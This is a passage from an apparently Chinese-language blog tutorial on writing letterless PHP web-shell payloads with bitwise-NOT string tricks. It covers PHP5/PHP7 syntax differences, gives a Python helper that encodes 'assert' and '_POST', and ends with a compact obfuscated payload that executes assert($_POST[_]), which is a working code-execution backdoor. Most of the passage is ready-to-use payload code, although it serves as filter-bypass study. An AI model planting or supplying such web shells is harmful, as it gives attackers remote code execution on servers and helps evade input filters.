 ![](/blog_img/noneword-2.png)
成功执行命令，不过由于相同的原因，我们需要对exp进行URL编码才能正常使用。  
这里还有一个需要注意的点是在PHP5下我们需要使用:
```php
$__ = "欠";
$____ .= ~($__{$_});
```
这种写法而不能直接使用:
```php
$____ .= ~("欠"{$_});
```
后者是PHP7中的语法。
### 升级版
在上面的学习过程中，可以知道:
```php
$_="卢";
print(~($_{1}));
print(~"\x8d");
```
这两种写法其实是等价的。所以如果把EXP中的\~("欠"{1})写成\~"\x8d"这种形式，可以缩减不少字符。给出POC:
```python
def get(shell):
    hexbit=''.join(map(lambda x: hex(~(-(256-ord(x)))),shell))
    hexbit = hexbit.replace('0x','%')
    print(hexbit)

get('assert')
get('_POST')
```
利用这个POC，我把上面的EXP缩减为:
```php
<?php
$_ = ~"%9e%8c%8c%9a%8d%8b";   //得到assert，此时$_="assert"
$__ = ~"%a0%af%b0%ac%ab";   //得到_POST，此时$__="_POST"
$___ = $$__;   //$___=$_POST
$_($___[_]);   //assert($_POST[_])
```